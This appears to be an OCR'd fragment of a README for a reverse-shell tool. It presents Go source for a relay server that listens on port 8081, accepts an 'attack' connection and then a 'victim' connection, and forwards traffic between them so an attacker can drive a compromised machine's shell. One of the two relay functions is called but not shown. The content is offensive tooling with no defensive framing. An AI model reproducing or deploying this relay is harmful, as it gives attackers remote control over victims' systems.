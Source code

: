 ```go
func receiveFromVictimSendToAttack(attc, vict net.Conn) {
	for {
		scanner := bufio.NewScanner(vict)

		for scanner.Scan() {
			fmt.Println(scanner.Text())
			_, err := attc.Write([]byte(scanner.Text() + "\n"))
			if err != nil {
				fmt.Println("connection error")
				return
			}
		}
	}
}

func main() {
	fmt.Println("Launching server...")

	ln, _ := net.Listen("tcp", "0.0.0.0:8081")
	fmt.Println("Waiting for attack side")
	connAttack, _ := ln.Accept()
	fmt.Println("Waiting for victim side")
	connVictim, _ := ln.Accept()
	fmt.Println("Server started")

	wg := sync.WaitGroup{}
	wg.Add(2)

	go func() {
		defer wg.Done()
		receiveFromAttackSendToVictim(connAttack, connVictim)
	}()
	go func() {
		defer wg.Done()
		receiveFromVictimSendToAttack(connAttack, connVictim)
	}()

	wg.Wait()
}
```
![Alt text](src/revsh.png)
